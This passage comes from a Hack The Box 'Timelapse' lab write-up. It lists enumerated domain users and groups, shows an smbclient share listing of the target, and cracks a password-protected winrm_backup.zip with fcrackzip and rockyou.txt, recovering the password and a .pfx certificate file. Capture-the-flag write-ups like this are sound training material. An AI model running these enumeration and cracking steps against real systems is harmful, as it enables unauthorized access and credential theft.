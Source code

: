 ```shell
1608: TIMELAPSE\DEV01$ (SidTypeUser)
2601: TIMELAPSE\LAPS_Readers (SidTypeGroup)
3101: TIMELAPSE\Development (SidTypeGroup)
3102: TIMELAPSE\HelpDesk (SidTypeGroup)
3103: TIMELAPSE\svc_deploy (SidTypeUser)
```

Here we got some valid user's on domain like, **svc_deploy, thecybergeek, babywyrm, sinfulz, payl0ad, legacyy**

### Port 139 & 445 SMB

We also have SMB ports open, let's try to list out smb shares if are available publicly using **smbclient**(The smbclient lets you **send messages to workstations, display browse lists and connect to SMB shares**). The command will be `smbclient -L \\10.10.11.152` here **-L** for list our shares. We have some shares accessible to us. 

```shell
smbclient -L \\10.10.11.152
Password for [WORKGROUP\kali]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
```

In Dev folder i found one winrm_backup.zip file. Let's Download it into our local machine and check what's inside it.

<img width="574" alt="Pasted image 20240111132714" src="https://github.com/iammR0OT/HTB/assets/74102381/482bf9a1-977b-437f-99a6-3f577b5f28e5">


## Exploitation

When i tried to unzip the file, the file was password protected.

<img width="425" alt="Pasted image 20240111184342" src="https://github.com/iammR0OT/HTB/assets/74102381/dd09b11e-089a-4bdb-a6a1-972180f74d97">


So, I decided to crack it using **fcrackzip**(**fcrackzip** is a fast password cracker partly written in assembler. It is able to crack password protected zip files with brute force or dictionary based attacks, optionally testing with unzip its results. It can also crack **cpmask’ed** images). You can install it using `sudo apt install fcrackzip` 
in kali. The command will be `fcrackzip -u -v -D -p rockyou.txt winrm_backup.zip` here **-u** use unzip to weed out wrong passwords , **-v** for verbosity, **-D** for Dictionary attack and  **-p** is for use string as initial password/file. and within a second it cracked the zip file and the password is **supremelegacy
**
```shell
fcrackzip -u -v  -D -p rockyou.txt winrm_backup.zip 
found file 'legacyy_dev_auth.pfx', (size cp/uc   2405/  2555, flags 9, chk 72aa)
checking pw udehss                                  

PASSWORD FOUND!!!!: pw == supremelegacy
```
